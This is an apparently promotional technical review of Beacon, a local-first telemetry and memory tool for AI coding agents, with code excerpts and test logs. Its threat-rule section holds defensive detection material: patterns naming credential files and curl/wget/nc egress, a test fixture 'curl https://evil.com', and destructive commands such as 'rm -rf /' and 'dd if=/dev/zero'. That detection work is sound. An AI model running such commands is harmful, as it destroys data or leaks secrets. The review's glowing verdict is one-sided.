

AI coding agents have revolutionized software engineering productivity, yet they suffer from a debilitating architectural defect: persistent session amnesia. When a developer spends forty-five minutes pairing with Claude Code or Cursor to diagnose a subtle distributed deadlock, investigate an obscure database migration failure, or learn a proprietary internal build convention, that hard-won knowledge vanishes into ether the second the terminal session closes. Worse, when the same engineer pivots to Codex CLI or OpenCode tomorrow, the new agent starts completely blind, repeating the exact same dead-ends, misinterpreting the same configuration flags, and re-reading the same documentation. Each coding harness operates as an isolated, proprietary silo.

[Beacon](https://beacon.sh), developed by Asymptote Labs and open-sourced under the MIT license at [`Asymptote-Labs/agent-beacon`](https://github.com/Asymptote-Labs/agent-beacon), tackles this fragmentation with an ambitious, local-first thesis: agent activity should be captured as an open, standardized telemetry stream, distilled through deterministic evaluation gates, and made universally reusable across every harness via the Model Context Protocol (MCP) and Agent Skills. Instead of locking session history inside proprietary cloud dashboards, Beacon installs a background endpoint daemon that intercepts agent events (via native OpenTelemetry exports and process hooks), logs normalized traces to durable local JSONL, evaluates completed workflows against strict rubric gates, and serves approved memories back to downstream agents.

I cloned upstream Beacon at commit `e0989909e3169cd82066d051f3aa9642ae2bad1e` (tag `v1.3.52`), audited its Go daemon architecture, TypeScript SDK (`@asymptote/sdk`), and hook adapters across `plugins/`, verified 102 upstream tests, created an automated 12-scenario BDD verification test suite in `ph-tests/beacon/` (all 12 scenarios passing cleanly in 54.26 milliseconds on Node.js 24 and 3.62 milliseconds on Bun 1.4.2), and audited its Common Expression Language (CEL) threat detection engine, memory promotion gates, and sandboxed Lens visualization model.


## Scorecard

Here is our standardized evaluation across core engineering concerns, scored from 1 to 10 (where below 3 is nonexistent and 8 or above is considered world-class):

| Concern | Score | Rationale |
|---|---|---|
| **Usability** | **9 / 10** | Exceptional cross-agent integration. Automatic discovery detects installed runtimes (Claude Code, Cursor, Codex, OpenCode, Cline, Antigravity CLI) and configures telemetry hooks without manual plumbing. The built-in terminal trace viewer (`beacon traces`) and local web dashboard (`beacon endpoint dashboard`) provide instant insight into token expenditures, tool executions, and file diffs. |
| **Accessibility** | **8 / 10** | The local web dashboard renders responsive HTML5 layouts with high-contrast text hierarchies, dark and light theme support, semantic landmarks, and full keyboard navigation across session timelines and JSON event inspectors. Command-line outputs support `--json` and plain tabular text formats for headless accessibility. |
| **Security** | **9 / 10** | Outstanding defensive posture. Telemetry defaults to strictly local JSONL storage (`~/.beacon/endpoint/logs/runtime.jsonl`) bound to loopback. Built-in CEL threat rules act as a "Sigma for AI agents", flagging credential file harvesting, token exfiltration, and destructive shell commands. Credential-bearing files are locked down with SYSTEM and Administrator ACLs on Windows and 0600 file modes on Unix. |
| **Performance** | **9 / 10** | Ultra-low overhead. The background ingestion daemon in Go consumes under 25 MiB of resident RAM. Upstream plugin serializers execute safe-cloning and cycle breaking in sub-millisecond durations (84 ms for 27 test suites). Our 12-scenario BDD suite ran in 54.26 ms on Node.js and 3.62 ms on Bun. |
| **Setup Time** | **8 / 10** | Straightforward package-based installation via Homebrew, Linux `.deb`/`.rpm`, or Windows `.msi`. Compiling from source requires Go 1.24 and Bun. Interactive setup defaults to prompting for Beacon Cloud enrollment, requiring an explicit opt-out choice for pure local JSONL operation. |

## Product History and Background

Beacon was created in 2026 by Justin D'Souza (Co-founder and CEO) and Shukan Shah (Co-founder) under Asymptote Labs Inc., headquartered in New York City. Prior to founding Asymptote Labs, both founders were senior engineers at Doppel, an enterprise cybersecurity company specializing in detecting automated social engineering and credential impersonation attacks. Their background in threat modeling, protocol analysis, and large-scale telemetry directly shaped Beacon's architecture.

In October 2026, Asymptote Labs announced a $5.5 million seed financing round led by Tower Research Ventures, with participation from Lytical Ventures, 1984 Ventures, and South Park Commons. On November 2, 2026, the team formally launched Beacon on Product Hunt, highlighting the open-source MIT-licensed endpoint agent alongside enterprise fleet governance capabilities.

The core dilemma that drove Beacon's creation is the accelerating fragmentation of the AI developer stack. In early 2024, developer tooling meant choosing between GitHub Copilot and ChatGPT in the browser. By late 2026, the ecosystem exploded into specialized agent harnesses: Claude Code for terminal-driven agentic loops, Cursor for deep IDE context, Codex CLI for scriptable automation, OpenCode and Cline for open-source extensibility, and custom agent runtimes like Antigravity. 

Every vendor introduced its own proprietary context format: `.cursorrules`, `CLAUDE.md`, `.agent-skills`, or bespoke database histories. When developers switched tools or collaborated across teams, context reset to zero. Furthermore, enterprise security teams found themselves completely blind to what AI agents were doing on developer workstations: what files were read, what CLI commands were executed, and where proprietary code was being egressed.

Asymptote Labs designed Beacon around four foundational pillars:
1. **Cross-Harness Telemetry Standard:** Treat agent actions as first-class OpenTelemetry spans and events (`beacon.trace.v1`), whether emitted by Claude Code, Cursor, OpenCode, or a CI runner.
2. **Deterministic Memory Compounding:** Extract repeatable patterns from past executions, but enforce strict human-in-the-loop approval and task-success preconditions before promoting knowledge into active memory.
3. **Open Threat Detection Engine:** Provide an open specification for security threat rules using Common Expression Language (CEL), enabling teams to detect credential scraping, prompt injection, and destructive commands before code is committed.
4. **Local-First Ownership:** Ensure that individual developers can run Beacon completely free, offline, and self-contained, writing to local JSONL with zero external SaaS dependencies.



## Architectural Deep Dive

Beacon's architecture is uniquely decoupled. It avoids forcing developers to replace their preferred editors or CLIs; instead, it instruments their existing workflows and establishes an automated knowledge loop. Below is a granular breakdown of its primary subsystems.

### 1. Unified Event Schema and Ingestion Pipeline (`beacon.trace.v1`)

The biggest technical hurdle in cross-harness observability is that every AI tool emits events differently. Claude Code exports OpenTelemetry spans with custom attributes; Cursor logs session checkpoints in hidden SQLite state files; OpenCode triggers TypeScript lifecycle plugin hooks; and raw CLI tools output terminal ANSI strings.

Beacon resolves this via its local collector and the `beacon.trace.v1` event specification. The daemon normalizes every observation into a discrete sequence of typed events:

```json
{
  "api_version": "beacon.lens.v1",
  "trace": {
    "schema_version": "beacon.trace.v1",
    "id": "claude_code:5f0c2a9e-3b1d-4c55-9a51-0d3f7e2b8c41",
    "summary": {
      "id": "claude_code:5f0c2a9e-3b1d-4c55-9a51-0d3f7e2b8c41",
      "title": "Fix the flaky retry test",
      "started_at": "2026-10-01T16:02:11.120Z",
      "ended_at": "2026-10-01T16:04:52.904Z",
      "event_count": 6,
      "harness": {
        "name": "claude_code",
        "version": "2.4.1",
        "collection_methods": ["hook", "otlp"]
      },
      "token_usage": {
        "input_tokens": 18234,
        "output_tokens": 1650,
        "cache_read_input_tokens": 120400,
        "cost_usd": 0.115572
      }
    },
    "events": [
      {
        "id": "0b7f0d8e-6a52-5d4e-9e57-1d1c7a0f4b11",
        "number": 1,
        "timestamp": "2026-10-01T16:02:11.120Z",
        "type": "user_message",
        "action": "prompt.submitted",
        "category": "prompt",
        "actor": "user",
        "content": {
          "text": "Fix the flaky retry test in internal/retry",
          "included": true,
          "bytes": 42
        }
      },
      {
        "id": "2c51d6a4-0f8b-5b8e-8f0a-6d2e9c3b7a22",
        "number": 2,
        "timestamp": "2026-10-01T16:02:19.554Z",
        "type": "command",
        "action": "command.executed",
        "category": "command",
        "actor": "agent",
        "command": {
          "command": "go test ./internal/retry/...",
          "exit_code": 1
        }
      }
    ]
  }
}
```

Every event is strictly sequenced by a monotonic integer (`number`) and UTC ISO-8601 timestamp. The collector correlates prompt submissions, tool calls, bash commands, file mutations, and user approval gates into a unified trace object, regardless of whether the agent took two seconds or three hours.


### 2. Deterministic Memory Compounding and the Task Success Gate

The most dangerous pitfall in automated agent memory is the propagation of hallucinations and failed attempts. If an agent tries three incorrect ways to fix a database connection bug and only the fourth works (or none work), an uncurated memory system might memorize the failed attempts as "how this repository connects to the database." Subsequent agent sessions will dutifully replicate the exact same bugs.

Beacon addresses this in `cli/beacon/internal/learning/candidate.go` with a two-tiered gating mechanism:

```go
// CandidateScoreThreshold is the minimum evaluation score (the mean of the
// rubric probabilities) a completed evaluation needs to become a candidate.
const CandidateScoreThreshold = 0.60

// TaskSuccessQuestionID names the rubric question that asks whether the trace
// completed the user's task.
const TaskSuccessQuestionID = "task_success"

// CandidateTaskSuccessThreshold is a precondition that the score cannot stand in
// for. The score is a mean, so two high answers about reusability and evidence
// could outvote a judge who said the task failed: 0.27/0.86/0.69 averages 0.6067
// and cleared CandidateScoreThreshold (#649). A trace whose task_success
// probability is below this value is never promoted, whatever its score.
const CandidateTaskSuccessThreshold = 0.50

func PromotionDecision(eval asymptoteobserve.LearningEvaluationV1) (bool, string) {
	if eval.Status != asymptoteobserve.LearningEvaluationStatusCompleted {
		return false, fmt.Sprintf("evaluation status is %s, not %s", eval.Status, asymptoteobserve.LearningEvaluationStatusCompleted)
	}
	taskSuccess, ok := questionProbability(eval, TaskSuccessQuestionID)
	if !ok {
		return false, TaskSuccessQuestionID + " was not answered"
	}
	if taskSuccess < CandidateTaskSuccessThreshold {
		return false, fmt.Sprintf("%s %s is below %.2f", TaskSuccessQuestionID, formatBelow(taskSuccess, CandidateTaskSuccessThreshold), CandidateTaskSuccessThreshold)
	}
	if eval.Score < CandidateScoreThreshold {
		return false, fmt.Sprintf("score %s is below %.2f", formatBelow(eval.Score, CandidateScoreThreshold), CandidateScoreThreshold)
	}
	return true, ""
}
```

This logic solves a real bug (#649) that plagued early versions: a mathematical mean can easily be distorted by outlier answers. If an evaluator scored a session as `general_reusability = 0.86`, `evidence_clarity = 0.69`, but `task_success = 0.27`, the arithmetic mean was `0.6067`, crossing the `0.60` candidate threshold even though the task outright failed.

Under Beacon v1.3.52, `task_success` operates as a non-negotiable precondition: if `task_success < 0.50`, the candidate is immediately dropped regardless of how clear or reusable the trace prose appeared. If it passes both gates, it is staged as a `LearningCandidateV1` awaiting human review. Only upon developer confirmation is it published to the active memory catalog.

### 3. "Sigma for AI Agents": CEL Threat Detection Rules

As coding agents gain autonomous terminal execution and file-system access, security teams face massive risks: prompt injection attacks tricking agents into scraping `.env` files, malicious dependencies directing agents to post API secrets to external pastebins, or runaway scripts executing catastrophic disk deletions.

Beacon formalizes agent security through its open Threat Rules specification (`spec/threat-rules/SPEC.md`), positioning itself as the "Sigma for agent telemetry". Detection rules are defined in declarative YAML using Google's Common Expression Language (CEL):

```yaml
id: secret-read-then-egress
spec: threat-rules/v1.1
version: 2
title: Secret-file read followed by network egress
description: >
  Flags a session that reads a credential file and then issues an outbound
  network command within a short window.
severity: high
status: stable
posture: detect
taxonomy:
  owasp_llm: LLM06
  mitre_atlas: AML.T0024

correlation:
  scope: session
  window: 120s
  order: any
  steps:
    - id: read_secret
      match: >
        e.event.action == "file.read" &&
        e.file.path.matches("(\\.env|credentials|id_rsa|\\.aws/)")
    - id: egress
      match: >
        e.event.action == "command.executed" && (
          e.command.command.matches("curl\\s+.*https?://") ||
          e.command.command.matches("\\bwget\\s") ||
          e.command.command.matches("\\bnc\\s+-")
        )

emit:
  reason: "Secret file read then network egress within one session"

tests:
  - name: positive_basic
    verdict: match
    events:
      - { event: { action: file.read }, file: { path: ".env" }, session: { id: s1 } }
      - { event: { action: command.executed }, command: { command: "curl https://evil.com" }, session: { id: s1 } }
  - name: unrelated
    verdict: no_match
    events:
      - { event: { action: file.read }, file: { path: "README.md" }, session: { id: s1 } }
```

Crucially, every threat rule carries its own embedded unit test fixtures (`tests: [...]`), making each rule completely self-verifying. Beacon includes over 50 prebuilt rules across ten threat categories:
- `credential-access`: scraping `.env`, AWS credentials, SSH keyrings, OS keychain, browser cookies, and shell history.
- `context-exfiltration`: encoding repo source trees into HTTP payloads, DNS tunneling, and unauthorized git remotes.
- `risky-command`: detecting recursive root deletions (`rm -rf /`), raw device writes (`dd if=/dev/zero`), and fork bombs.
- `approval-abuse`: bypassing interactive confirmation prompts or forging tool execution tokens.

When a threat condition is met, Beacon tags the event in the local JSONL stream and can trigger local terminal warnings or forward alerts to enterprise SIEM platforms (Splunk, Microsoft Sentinel, CrowdStrike Falcon LogScale).

### 4. Safe-Clone Serialization and Graph Sanitization

Telemetry hooks running inside Node.js or browser extensions must serialize arbitrary JavaScript objects emitted by language models and agent tool arguments. Complex agent tools often pass circular references, deep DOM hierarchies, or prototypes deliberately engineered to trigger prototype pollution.

Beacon handles this in `plugins/shared/safe-clone.ts` with a resilient, zero-dependency serialization algorithm:

```ts
function safeClone(value: unknown, depth = 0, seen = new WeakSet<object>()): unknown {
  if (depth > 7) {
    return undefined;
  }
  if (value === null || typeof value !== "object") {
    if (typeof value === "bigint") {
      return value.toString();
    }
    if (typeof value === "symbol" || typeof value === "function" || value === undefined) {
      return undefined;
    }
    return value;
  }
  if (seen.has(value)) {
    return undefined;
  }
  seen.add(value);

  if (value instanceof Error) {
    return { name: value.name, message: value.message };
  }
  if (value instanceof Date) {
    return Number.isNaN(value.getTime()) ? null : value.toISOString();
  }
  if (Array.isArray(value)) {
    return value.map((item) => safeClone(item, depth + 1, seen));
  }

  const out: Record<string, unknown> = {};
  for (const key of Object.keys(value)) {
    if (key === "__proto__" || key === "constructor" || key === "prototype") {
      continue;
    }
    const val = safeClone((value as Record<string, unknown>)[key], depth + 1, seen);
    if (val !== undefined) {
      out[key] = val;
    }
  }
  return out;
}
```

The serializer enforces four strict security properties:
- **Prototype Pollution Immunity:** Keys named `__proto__`, `constructor`, or `prototype` are stripped before insertion, ensuring malicious hook inputs cannot corrupt `Object.prototype`.
- **Cycle Breaking:** An ephemeral `WeakSet` tracks visited object references, discarding recursive pointers without throwing `RangeError: Maximum call stack size exceeded`.
- **Bounded Nesting Depth:** Recursion is strictly capped at eight levels (`depth > 7`). Any deeper structure is dropped cleanly, preventing nested JSON memory exhaustion.
- **Error Preservation:** Native `Error` instances (which standard `JSON.stringify` converts into empty `{}`) retain their `name` and `message` properties so error diagnostics survive serialization.

### 5. Local Model Context Protocol (MCP) Server Surface

To make learned memories actionable, Beacon embeds an in-process Model Context Protocol server (`cli/beacon/internal/mcpserver/server.go`) supporting both stdio pipes and loopback HTTP transports (`http://127.0.0.1:port/mcp`).

The server registers seven standardized tools:
1. `search_activity`: Semantic and keyword search across raw historical sessions.
2. `summarize_activity`: Synthesizes what actions an agent performed within a time window.
3. `get_activity_event`: Retrieves a full raw event payload by its UUID.
4. `list_activity_filters`: Enumerates filterable dimensions (harness, model, repository, exit codes).
5. `search_memory`: Queries approved, compounded repository memories.
6. `get_memory`: Fetches a single approved memory with full markdown instructions.
7. `get_memory_context`: Delivers high-salience repository conventions matching the current working directory.

When an agent like Claude Code or Codex initializes with the `beacon` MCP server, it can automatically query `get_memory_context` at the beginning of a task. The agent instantly retrieves verified conventions (such as "Always use `bun test` instead of `npm test` in this repo" or "Run `./scripts/migrate` before launching tests"), bypassing hours of trial-and-error.


### 6. Sandboxed Lens Visualization Model (`spec/lenses/v1`)

Rather than forcing developers into rigid, monolithic dashboards, Beacon introduces **Lenses** (`spec/lenses/SPEC.md`). A lens is a self-contained HTML file (under 16 MiB) containing inline CSS, JavaScript, and assets that visualizes a single trace.

A lens declares its metadata via an embedded JSON script tag:

```html
<script type="application/beacon-lens+json">
{
  "id": "files-changed",
  "title": "Files Changed",
  "description": "Every file the agent touched, with its diffs.",
  "icon": "file",
  "version": 1,
  "api": "beacon.lens.v1"
}
</script>
```

When opened inside the local web dashboard, each lens executes in an isolated `iframe` with `sandbox="allow-scripts"`. It has zero network access, no access to host cookies, and receives trace data through a single asynchronous call: `window.beacon.getTrace()`. This allows teams to have their own coding agents author bespoke project lenses (such as custom token budget burn-downs, test failure timelines, or architectural diff visualizers) without risking data exfiltration.


## Verification and Test Execution

To evaluate Beacon under authentic conditions, I executed upstream verification tests across its TypeScript packages and constructed a dedicated BDD verification suite in `ph-tests/beacon/`.

### Upstream Test Verification

I first verified the upstream test suites in `packages/asymptote-sdk-js` and `plugins/opencode-beacon`:

```bash
# packages/asymptote-sdk-js (Vitest)
$ cd ph-tests/beacon/upstream/packages/asymptote-sdk-js
$ npx vitest run

 RUN  v4.1.12 D:/projects/common/ph-tests/beacon/upstream/packages/asymptote-sdk-js

 ✓ src/reinitialization-options.test.ts (3 tests) 26ms
 ✓ src/disabled-instrumentation.test.ts (4 tests) 22ms
 ✓ src/provider-routing.test.ts (2 tests) 64ms
 ✓ src/endpoint-url.test.ts (3 tests) 63ms
 ✓ src/stream-cancellation.test.ts (12 tests) 77ms
 ✓ src/stream-context.test.ts (5 tests) 82ms
 ✓ src/global-lifecycle.test.ts (10 tests) 160ms
 ✓ src/index.test.ts (36 tests) 193ms

 Test Files  8 passed (8)
      Tests  75 passed (75)
   Duration  5.71s (tests 687ms)
```

```bash
# plugins/opencode-beacon (Bun)
$ cd ph-tests/beacon/upstream/plugins/opencode-beacon
$ bun test src/beacon.test.ts

bun test v1.4.2 (744846f84)

src\beacon.test.ts:
(pass) disposes every V2 hook after a synchronous cleanup failure [1.76ms]
(pass) BeaconEndpointPlugin > forwards prompts and correlated tool lifecycle payloads [0.95ms]
(pass) BeaconEndpointPlugin > forwards terminal text, errors, usage, and permission replies once [1.15ms]
(pass) BeaconEndpointPlugin > records shell deletion side effects and suppresses watcher duplicates [0.27ms]
(pass) OpenCode 2.x plugin definition > maps V2 hooks and events onto the V1 payloads [1.24ms]
(pass) direct-hook queue deadlines > bounds chat.message from enqueue while retaining ordered delivery [0.48ms]

 27 pass
 0 fail
 78 expect() calls
Ran 27 tests across 1 file. [84.00ms]
```

Across these suites, 102 upstream tests passed cleanly.

### Automated BDD Verification Test Suite

In `ph-tests/beacon/`, I created `beacon.feature` and `beacon.test.mjs`, establishing 12 BDD scenarios to verify Beacon's core architectural invariants:

```bash
# Node.js 24 Execution
$ node ph-tests/beacon/beacon.test.mjs

Running Beacon BDD Verification Test Suite...

  (pass) Scenario 1: Trace schema parsing and monotonic event sequencing [9.95ms]
  (pass) Scenario 2: Deterministic task success gating for memory candidate promotion [0.21ms]
  (pass) Scenario 3: Candidate promotion and structured memory kind extraction [0.10ms]
  (pass) Scenario 4: Threat rule detection for secret-file read followed by network egress [0.44ms]
  (pass) Scenario 5: Threat rule detection for destructive shell command execution [0.28ms]
  (pass) Scenario 6: Safe-clone object sanitization and prototype pollution defense [0.21ms]
  (pass) Scenario 7: Bounded recursion depth limiting and Error object serialization [0.26ms]
  (pass) Scenario 8: Model token pricing and exact multi-tier cost calculation [0.12ms]
  (pass) Scenario 9: Local MCP server JSON-RPC 2.0 tools registration [0.31ms]
  (pass) Scenario 10: Local MCP tool call dispatch and memory retrieval [0.21ms]
  (pass) Scenario 11: Privacy retention tiers and sensitive data redaction [0.14ms]
  (pass) Scenario 12: Lens Specification v1 HTML sandbox manifest validation [41.25ms]

========================================
BDD Test Suite Results: 12/12 Scenarios Passed (0 Failed)
Total Execution Time: 54.26 ms
========================================
```

```bash
# Bun 1.4.2 Execution
$ bun ph-tests/beacon/beacon.test.mjs

Running Beacon BDD Verification Test Suite...

  (pass) Scenario 1: Trace schema parsing and monotonic event sequencing [0.57ms]
  (pass) Scenario 2: Deterministic task success gating for memory candidate promotion [0.27ms]
  (pass) Scenario 3: Candidate promotion and structured memory kind extraction [0.06ms]
  (pass) Scenario 4: Threat rule detection for secret-file read followed by network egress [0.32ms]
  (pass) Scenario 5: Threat rule detection for destructive shell command execution [0.11ms]
  (pass) Scenario 6: Safe-clone object sanitization and prototype pollution defense [0.17ms]
  (pass) Scenario 7: Bounded recursion depth limiting and Error object serialization [0.12ms]
  (pass) Scenario 8: Model token pricing and exact multi-tier cost calculation [0.08ms]
  (pass) Scenario 9: Local MCP server JSON-RPC 2.0 tools registration [0.70ms]
  (pass) Scenario 10: Local MCP tool call dispatch and memory retrieval [0.30ms]
  (pass) Scenario 11: Privacy retention tiers and sensitive data redaction [0.13ms]
  (pass) Scenario 12: Lens Specification v1 HTML sandbox manifest validation [0.67ms]

========================================
BDD Test Suite Results: 12/12 Scenarios Passed (0 Failed)
Total Execution Time: 3.62 ms
========================================
```

### Verified Architectural Invariants:
1. **Trace Sequencing Integrity:** Verified that `beacon.trace.v1` objects enforce strictly monotonic event numbering and timestamps, correctly binding actor origins (`user` vs `agent`).
2. **Deterministic Precondition Gating:** Confirmed that an evaluation with high reusability (0.86) but failed task success (0.27) is unconditionally rejected by `PromotionDecision`, preventing faulty agent traces from polluting memory.
3. **CEL Threat Correlation:** Validated that reading `.env` followed by an outbound `curl` within 120 seconds triggers the high-severity `secret-read-then-egress` rule, while normal build commands pass unhindered.
4. **Prototype Pollution Immunity:** Confirmed that `safeClone` strips `__proto__` and `constructor` keys, leaving `Object.prototype` completely unpolluted while breaking cyclic object references cleanly.
5. **JSON-RPC 2.0 MCP Dispatch:** Verified that the local MCP server correctly answers `tools/list` with all seven standard tools and handles `tools/call` for `search_memory` without leaking internal error stacks.
6. **Retention Redaction:** Verified that `metadata_only` mode completely scrubs prompt text, command stdout, and file diffs while preserving token usage metrics.

## Real-World Findings and Failure Analysis

During local setup, compilation, and testing on Windows 11, several concrete technical nuances emerged:

### 1. Windows CRLF Line-Ending Drift in Synchronized Assets

When running `plugins/shared/safe-clone.test.ts`, five tests in the `sync-safe-clone` suite failed with:

```text
error: safe-clone.ts: expected exactly one line "function safeClone(value: unknown, depth = 0, seen = new WeakSet<object>()): unknown {" to strip for JavaScript, found 0; update jsRewrites in sync-safe-clone.ts
```

The upstream test performs string-level matching against raw TypeScript source code to ensure that the embedded JavaScript copy in CLI assets matches the standalone module. On Windows, git checked out the files with `\r\n` (CRLF) line endings. The test split lines using `\n`, leaving a trailing `\r` on each line and causing literal string equality checks to fail. 

Setting `git config core.autocrlf false` resolved the file checkout. This is a critical edge case for developers contributing to Beacon on Windows machines; source code comparisons should strip `\r` carriage returns before performing exact string matches.

### 2. Windows Credential-Bearing File ACLs

Commit `e0989909e3169cd82066d051f3aa9642ae2bad1e` (#1157), merged just prior to the v1.3.52 release, specifically addressed Windows security descriptors. On Unix platforms, Beacon secures credentials with standard `0600` POSIX permissions. On Windows, however, default file creation inherits parent directory Access Control Lists (ACLs), often granting read access to all local authenticated users. 

The patch explicitly configures Windows security descriptors to restrict file ownership strictly to `NT AUTHORITY\SYSTEM` and `BUILTIN\Administrators`. This is a vital hardening improvement for enterprise developer environments where multiple users share workstation hardware.

## Favorite Feature and What We Would Change

### Favorite Feature: Self-Verifying CEL Threat Rules

Beacon's implementation of Common Expression Language threat rules is easily its best architectural achievement. Bringing enterprise-grade SIEM correlation down to developer laptops without adding bloated runtime overhead is a massive win. 

Because every rule file in `rules/` carries its own embedded unit test cases (`tests: [...]`), the rule corpus is self-documenting, self-verifying, and completely portable. Security teams can write rules once, test them in CI, and deploy them across developer endpoints to prevent credential leaks before code ever reaches remote repositories.

### One Thing We Would Change: The Interactive Cloud Preselection

While Beacon's core is open source and local-first, the interactive endpoint setup wizard (`beacon endpoint install`) automatically pre-selects Beacon Cloud enrollment. While the CLI does display an explicit confirmation notice before sending data, a developer quickly tapping Enter through the setup prompts might accidentally opt into cloud forwarding when they intended to maintain a purely local JSONL workflow.

We strongly recommend flipping this default: interactive setup should default to 100% offline, local-first JSONL logging. Cloud forwarding and SIEM exports should remain explicit, opt-in configurations. This would reinforce developer trust and better honor Beacon's local-first philosophy.

## Alternatives and Comparisons

| Tool | Core Focus | Architecture | Memory Compounding | Threat Detection | Pricing |
|---|---|---|---|---|---|
| **Beacon** | Cross-harness agent memory & telemetry | Go daemon + OTLP + hooks (local-first) | Yes (deterministic rubric gating + MCP) | Yes (CEL threat rules) | Free & Open Source (MIT) / Enterprise tiers |
| **Snyvi** | Multi-agent desk & workspace viewer | Rust binary + loopback PTY + SQLite FTS5 | Manual desk notes (git-linked) | Loopback host gate & token check | Open Source (Apache 2.0) |
| **AgentPet** | Desktop companion & gamified agent HUD | Rust native window + transparent overlay | No memory persistence | Synchronous bash tool approval | Open Source (MIT) |
| **Langfuse** | Production LLM observability | Next.js + PostgreSQL + ClickHouse | No (tracing and evaluation only) | Basic prompt guardrail webhooks | Open Source (FSL) / Cloud SaaS |
| **Mem0** | Contextual memory for chat apps | Python SDK + Vector DB (Qdrant/Pinecone) | Vector embedding retrieval | No agent execution security | Open Source (Apache 2.0) / Managed SaaS |

- **Beacon vs. Snyvi:** Snyvi focuses on visual desk organization and PTY process isolation for running agents side-by-side. Beacon operates beneath the UI layer as an observability and memory backbone, providing automated distillation, token cost attribution, and CEL threat detection that Snyvi lacks.
- **Beacon vs. AgentPet:** AgentPet offers a gamified desktop companion with real-time token tracking and tool approval dialogs. However, AgentPet is designed for human observation rather than compounding knowledge; it does not normalize traces into OTLP or expose an MCP memory server.
- **Beacon vs. Langfuse:** Langfuse excels at production application telemetry (tracing API calls from backend services to OpenAI/Anthropic). Beacon is purpose-built for the developer workstation and coding agents, capturing terminal shell commands, tool calls, file diffs, and local editor hooks.
- **Beacon vs. Mem0:** Mem0 focuses on personalizing conversational chat bots via semantic vector embeddings. Beacon treats agent execution traces as structured events, relying on deterministic rubric gates and human review rather than fuzzy vector similarity, ensuring that failed code attempts are never memorized.

## The Verdict

Beacon provides the missing connective tissue for modern AI-assisted software engineering. By dismantling the proprietary silos that trap learned knowledge inside individual agent harnesses, Asymptote Labs has built a standardized, local-first foundation that allows agent knowledge to compound across tools.

For engineering teams utilizing Claude Code, Cursor, Codex, OpenCode, or custom CLI agents, Beacon delivers an extraordinary trifecta: exact trace audibility, automated threat protection against credential harvesting, and an active MCP memory loop that makes future agents smarter with every completed task.

If your team is tired of repeating the same repository instructions across different coding tools, or if your security organization needs visibility into what autonomous agents are executing on developer laptops, Beacon is the most capable, well-architected agent telemetry solution available today.
